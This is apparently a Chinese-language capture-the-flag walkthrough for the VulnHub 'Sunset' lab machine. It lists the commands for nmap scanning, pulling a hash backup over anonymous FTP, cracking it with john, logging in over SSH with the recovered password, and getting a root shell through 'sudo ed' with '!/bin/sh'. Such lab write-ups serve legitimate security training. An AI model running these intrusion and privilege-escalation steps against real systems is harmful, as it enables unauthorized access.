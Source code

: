# Sunset

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Sunset（IP：192.168.56.103）

下载：https://www.vulnhub.com/entry/sunset-1,339/

## Let's go

```
nmap -A 192.168.56.103
```

![](./img/Sunset-01.png)

> **检测到允许匿名登录，我们进行尝试**

```
ftp
open 192.168.56.103
anonymous			  #密码为空
ls
get backup			  #下载backup
bye
```

![](./img/Sunset-02.png)

> **查看文件发现五个用户的哈希，我们使用john破解**

```
cat backup		#将哈希写入hash
vim hash		#靶机名sunset,所有我将sunset写在首行
john hash
```

![](./img/Sunset-03.png)

![](./img/Sunset-04.png)

> **得到用户 'sunset' ，密码 'cheer14'，我们进行SSH登录**

```
ssh sunset@192.168.56.103
```

![](./img/Sunset-05.png)

```
sudo -l
```

![](./img/Sunset-06.png)

> **搜索发现ed命令是文本编辑器，我们可以通过!/bin/sh提权**

![](./img/Sunset-07.png)

```
sudo /usr/bin/ed
!/bin/sh
cd /root
cat flag.txt
```

![](./img/Sunset-08.png)